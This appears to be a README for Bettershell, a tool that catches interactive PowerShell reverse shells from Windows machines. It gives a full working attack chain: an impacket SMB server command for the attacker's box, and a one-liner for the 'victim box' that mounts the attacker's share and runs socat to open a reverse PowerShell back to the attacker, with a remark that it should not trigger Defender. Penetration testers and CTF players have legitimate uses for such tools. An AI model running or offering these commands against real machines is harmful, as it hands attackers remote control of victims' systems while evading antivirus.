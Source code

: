 Bettershell is a basic netcat client paired with rlwrap, socat, a large Powershell command wordlist, and bash scripting.

Using bettershell in place of a typical nc listener, you can catch Powershell reverse shells that don't die on ctrl+c, autocomplete based on wordlist entries and command output, allow arrowkey movement to edit pasted commands without those annoying symbols, and that reference a searchable command history. You also get an accurate path prompt with no weird command echo.

Best of all, it's blue. Is it really powershell if it isn't blue?

Bettershell can be used to catch any reverse shell from a Windows box. For stderr piping support, the included socat.exe binary can easily be executed on the victim from an SMB share.

To do so, open port 445, then start up an impacket SMB server on your attack box in the directory with socat.exe:
```
sudo smbserver.py SMB . -comment SMB -ts -debug -smb2support -username user -password pass
```
to get a reverse shell, execute the following on your victim box:
```
cmd.exe /c net use x: \\YOURIP\SMB /user:user pass & x:\socat.exe tcp-connect:$IP:$PORT exec:powershell.exe,pty,stderr
```
The above example shouldn't trigger Defender. Exclude authentication when attacking PCs that don't support it.
